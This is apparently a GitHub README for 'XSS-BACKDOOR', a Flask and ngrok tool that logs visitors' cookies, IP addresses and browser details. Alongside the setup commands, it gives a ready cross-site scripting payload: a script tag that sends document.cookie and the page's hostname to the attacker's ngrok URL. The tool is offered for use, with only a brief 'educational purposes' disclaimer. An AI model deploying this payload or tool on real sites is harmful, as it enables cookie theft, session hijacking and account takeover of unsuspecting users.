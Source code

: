 # XSS-BACKDOOR

## Overview
XSS-BACKDOOR is a Flask-based web server that uses `ngrok` to expose a local server to the internet. It collects visitor information, including their user agent details, cookies, and IP address, and logs them in the console.

## Features
- Uses `Flask` to handle web requests.
- Uses `ngrok` to make the server accessible online.
- Parses user-agent data to identify device type, operating system, and browser.
- Captures and logs domain name and cookies.
- Injects a JavaScript payload to capture cookies from visitors.
- Displays information in a formatted and colorized console output.

## Requirements
Ensure you have the following dependencies installed:

```bash
pip install flask pyngrok colorama user-agents
```

## Setup and Usage
1. Clone this repository:
   ```bash
   git clone https://github.com/yourusername/trap-backdoor.git
   cd trap-backdoor
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. Run the script:
   ```bash
   python main.py
   ```
4. The script will generate an `ngrok` URL, which can be used to collect visitor information.
5. Payload URL:
   ```html
   <script>var i=new Image;i.src="NGROK_URL/?" + document.cookie + "&host=" + document.location.hostname;</script>
   ```
   Replace `NGROK_URL` with the actual `ngrok` link printed in the console.

## Disclaimer
This project is for educational purposes only. Unauthorized use of this software to collect sensitive information without consent is illegal and unethical. The author is not responsible for any misuse of this tool.

## License
MIT License. See [LICENSE](LICENSE) for more details.

